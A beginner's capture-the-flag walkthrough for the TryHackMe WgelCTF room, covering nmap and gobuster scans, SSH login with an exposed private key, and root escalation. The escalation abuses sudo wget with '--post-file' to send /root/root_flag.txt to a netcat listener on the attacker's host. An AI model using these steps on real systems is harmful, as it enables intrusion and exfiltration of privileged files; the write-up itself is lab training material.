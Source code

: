 
[https://tryhackme.com](https://tryhackme.com/). Link to the room: [https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf). Now lets get hacking!
****

# Information
- CTF Name: WgelCTF
- CTF Level:Beginer
- CTF Description: A hands-on CTF focuusing on web vulnerabilities,desiged for learning and skill development
- Date: 26/09/24
- Platform: TryHackMe
- Category: Web Application Security
- IP: 10.8.38.148 (IP that the ctf gave to me)

# Findings
### Credentials

first create a folder so as to arrange your wgel easily
![[Pasted image 20240925232120.png]]
**Reconnaissance & User Flag**
before every thing, make sure that you are connected to vpn.
After running our nmap scan we find just two open ports, 22 (ssh) and 80 (http).

> nmap -sV -PN -p- wgel.thm -o nmapresults.txt

![[Pasted image 20240925230805.png]]

Lets check the web page out. We land on the default Apache2 Ubuntu page. I click view source, and spot a message: “Jessie don’t forget to update the website”. Looks like we have a potential username.

Next I run gobuster and discover the “/sitemap” directory.

> gobuster dir -u http://wgel.thm -w /usr/share/wordlists/dirb/small.txt
![[Pasted image 20240926004957.png]]

after looking around he page we donot get any information, so we run another gobstur scan on the `/sitemap` directory.

We find a .ssh directory,The directory contains an rsa private key. We can use this to login.
Copy the rsa key to your attacker machine, and give the file the correct permissions (in this case, it wants the private key to be only readable/write-able by our own user): “chmod 600 id_rsa”
Then we can login with ssh by using the username we found earlier and the rsa key (make sure you are using the rsa key you found on the web-server!)
> ssh -i id_rsa jessie@user>
![[Pasted image 20240926010851.png]]

We are in! We can locate the flag by using the command “locate”.
![[Pasted image 20240926010559.png]]
- after all, you can use cat /user_flag.txt then you will see 
####Root Flag
I do my sudo -l and discover we can run /usr/bin/wget as root. Perfect, time to go to GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)). We search for wget and find our exploit. After doing a bit of research on this exploit, I see we need to start a netcat listener on our personal attacker machine and then run wget as sudo and then post the file we want on the victim machine:

> Attacker machine: nc -lvnp 4444
> 
> victim machine(on jessie’s user in this case): sudo /usr/bin/wget — post-file=/root/root_flag.txt [http://your TryHackMe Ip adres here>:4444](http://10.11.12.95:4444)
There we go, we get the root flag!
then paste your answer to TryHackMe

![[Pasted image 20240926012125.png]]

ENJOY!!!!